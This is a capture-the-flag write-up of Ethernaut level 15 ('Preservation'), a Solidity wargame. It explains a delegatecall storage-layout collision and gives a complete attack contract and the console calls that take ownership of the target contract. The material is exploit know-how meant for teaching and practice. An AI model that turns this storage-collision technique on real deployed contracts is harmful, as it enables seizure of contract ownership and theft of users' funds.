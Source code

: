 # Level 15: [Preservation](https://ethernaut.openzeppelin.com/level/0x2754fA769d47ACdF1f6cDAa4B0A8Ca4eEba651eC)

## Level objectives:
Claim ownership of contract.
## Analysis (lol)
- Only the constuctor sets the owner.
- When using `delegatecall`, the storage layout/order must be the same in the original as well as the delegate contract.
- The layout is not the same here.
- Calling the delegate contract, we can see that it modifies the `timeZone1Library`'s address.
- We can abuse this by setting it to the address of a contract we control.

## Steps:
- Attack contract:
```sol
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8;

contract AttackPreservation {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    // matching the original contract's storage layout.
    
    // fake function to match the func signature
    function setTime(uint _time) public {
        owner = 0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4;
    }
}
```
- Setting `timeZone1Library` to our contract's address:
```js
contract.setSecondTime("0x76e0704a9fAD5D0252e023B45b6c94BDcfD5d4A8");
```
- Triggering `delegatecall` to the first address:
```js
contract.setFirstTime("1674807193"); // put some value convertible to an actual number
```

- The contract thinks it's calling a function in the library contract whereas it's actually calling the `setTime` defined in our malicious contract.
- Verify attack using: `await contract.owner();`.